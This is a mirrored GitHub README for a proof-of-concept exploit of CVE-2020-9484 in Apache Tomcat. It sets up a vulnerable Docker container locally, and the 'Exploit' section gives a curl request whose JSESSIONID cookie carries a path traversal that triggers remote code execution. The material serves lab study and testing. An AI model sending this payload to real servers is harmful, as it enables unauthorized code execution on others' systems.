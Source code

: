 # CVE-2020-9484

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/masahiro331](https://github.com/masahiro331) |
| Url      | [https://github.com/masahiro331/CVE-2020-9484](https://github.com/masahiro331/CVE-2020-9484)                                               |
| Stars    | 126                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2020-9484 (Tomcat)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/masahiro331/CVE-2020-9484.git
$ cd CVE-2020-9484
$ docker build -t tomcat:groovy .
$ CONTAINER=`docker run -d -p 8080:8080 tomcat:groovy`
```

## Check (clean)
```
$ docker exec -it $CONTAINER ls -la /tmp
```
**NOTE:** (`rce` NOT in output)

## Exploit
```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
```

## Check (exploited)
```
$ docker exec -it $CONTAINER ls -la /tmp
```
**NOTE:** (`rce` IS in output)



## Get the content

```
git clone https://github.com/masahiro331/CVE-2020-9484
cd CVE-2020-9484
```

{% embed url="https://github.com/masahiro331/CVE-2020-9484" %}

<figure><img src="https://avatars.githubusercontent.com/u/20438853?v=4" alt=""><figcaption><p>masahiro331</p></figcaption></figure>
